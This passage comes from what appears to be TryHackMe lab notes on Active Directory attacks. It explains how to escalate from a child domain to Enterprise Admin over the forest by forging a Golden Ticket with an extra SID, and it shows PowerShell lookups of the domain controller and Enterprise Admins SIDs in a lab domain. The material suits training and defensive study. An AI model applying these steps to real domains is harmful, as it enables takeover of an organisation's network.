```
.....


```

### Inter-Realm TGTs

Using the KRBTGT password hash, we could now forge a Golden Ticket to access any resource in the child domain. This will also be discussed in more detail in the Persisting AD Notes.

Inter-Realm TGTs are used to provide access to resources in other domains. In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.

We will include extra account SIDs from other domains when we construct the Golden Ticket to perform this exploit. Mimikatz can assist with this, allowing us to set the ExtraSids section of the KERB_VALIDATION_INFO structure of the Kerberos TGT.

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of the Enterprise Admins (EA) group as an extra SID to our forged ticket for the domain controller of the child domain. 

The EA group belongs to the parent domain and membership to this group essentially grants Administrative privileges over the entire forest! 

The default SID for this group is S-1-5-21-\<RootDomain\>-519. 

Before we can go into exploitation, we first need to recover two SIDs:

- The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT
- The SID of the Enterprise Admins in the parent domain, which we will add as an extra SID to our forged TGT

To recover these SIDs, we can use the AD-RSAT Powershell cmdlets.
```
PS C:\> Get-ADComputer -Identity "THMDC"

DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName       : THMDC.za.tryhackme.loc
Enabled           : True
Name              : THMDC
ObjectClass       : computer
ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName    : THMDC$
SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
```

We can recover the SID of the Enterprise Admins group using the following command to query the parent domain controller:
```
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc                                                  GroupCategory     : Security                                                                                           GroupScope        : Universal                                                                                          Name              : Enterprise Admins                                                                                  ObjectClass       : group                                                                                              ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de                                                               SamAccountName    : Enterprise Admins                                                                                  SID               : S-1-5-21-3330634377-1326264276-632209373-519
```

